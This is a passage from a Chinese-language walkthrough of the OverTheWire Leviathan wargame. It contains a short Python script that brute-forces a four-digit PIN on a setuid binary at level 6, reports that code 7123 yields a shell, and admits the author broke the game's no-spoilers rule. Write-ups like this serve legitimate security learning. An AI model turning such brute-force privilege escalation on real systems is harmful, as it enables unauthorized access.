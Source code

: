 ![leviathan_home_level6](http://drops.javaweb.org/uploads/images/a5f9aa2c19198de0871ef702403fa63c710a256b.jpg)

这里，这个`set-uid`程序需要输入一个`4 digit code`，懒得再去用`gdb`反汇编了，我估计也不太好反，做了混淆应该。干脆就来个爆破吧。

```
#!/usr/bin/env python
#coding=utf-8

import os

for pincode in range(10000):
        cmd = "~/leviathan6 %04d" %(pincode)
        # for debug
        #print "test %s" %(cmd)
        ret = os.popen(cmd).read()
        if ret.find("Wrong") == -1:
                print "maybe success in %s" %(cmd)

```

程序在`7123`那里停止了，我猜想是跑到了`shell`里面去了。尝试了一下，果然是这样的。

![leviathan_pass_level6](http://drops.javaweb.org/uploads/images/79858a900ac1cfb4c74e13eed2b97b2fbdeaaad4.jpg)

level 7
=======

* * *

`ssh`登陆到`level 7`

![leviathan_home_level7](http://drops.javaweb.org/uploads/images/46a3ae2fd4dff24baa0c0e6685d81e2b7dcb259b.jpg)

好吧，我纯粹是为了混一个邀请码，才写这个`writeup`的。要不然我肯定遵守这个规则！

end
===

* * *

Bingo！这个`wargame`就这样结束了，题目确实挺简单的，完全是为了新手学习，知道怎么玩`wargames`。

更多关于`wargames`的信息，请参考[这里](http://overthewire.org/wargames/)!